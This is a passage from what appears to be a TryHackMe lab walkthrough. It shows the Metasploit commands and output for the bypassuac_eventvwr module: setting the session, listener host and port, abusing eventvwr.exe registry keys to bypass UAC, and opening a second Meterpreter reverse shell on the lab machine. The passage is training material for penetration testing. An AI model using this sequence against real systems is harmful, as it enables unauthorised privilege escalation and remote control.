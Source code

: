 ```

View the full module info with the info, or info -d command.

msf6 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
msf6 exploit(windows/local/bypassuac_eventvwr) > set LPORT 4433 
LPORT => 4433
```

Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?

LHOST

Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`

After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. 

```
msf6 exploit(windows/local/bypassuac_eventvwr) > exploit

[*] Started reverse TCP handler on 10.18.72.222:4433 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175686 bytes) to 10.10.184.85
[*] Meterpreter session 2 opened (10.18.72.222:4433 -> 10.10.184.85:49277) at 2023-07-29 07:11:38 -0400
[*] Cleaning up registry keys ...

meterpreter > 
```

Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`

```
meterpreter > 
Background session 2? [y/N]  
msf6 exploit(windows/local/bypassuac_eventvwr) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.18.72.222:4444 -> 10.10.184.85:49244 (10.10.184.85)
  2         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.18.72.222:4433 -> 10.10.184.85:49277 (10.10.184.85)

msf6 exploit(windows/local/bypassuac_eventvwr) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```
